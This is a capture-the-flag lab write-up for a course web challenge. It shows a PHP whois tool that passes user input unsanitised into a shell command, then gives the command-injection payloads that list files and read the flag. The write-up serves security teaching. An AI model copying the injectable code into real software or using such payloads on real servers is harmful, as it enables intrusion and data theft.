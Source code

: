 ```yaml
---
title: Simple Web - 0x02(Lab - Whois Tool)
tags: [CTF, Web, eductf]

category: "Security > Course > NTU CS > Web"
---
```


# Simple Web - 0x02(Lab - Whois Tool)
###### tags: `CTF` `Web` `eductf`
Challenge: https://whoistool.ctf.zoolab.org/

## Background
Almost the same as [0x10(Lab - DNS Lookup Tool | WAF)](/7x0Gr0C_QEahfS_QaTLYTg)

## Source Code
```php=
<?php
if(isset($_GET["host"])){
  $host = $_GET["host"];
  if(strlen($host) > 15)
    echo "Host name tooooooo logn!!";
  else
    echo `whois "{$host}" 2>&1;`;
}
?>
```

## Exploit
Payload: `";ls -al;"`
![](https://i.imgur.com/MsG3wOH.png)
Payload: `";cat flag.t*;"`
Then we got flag!!!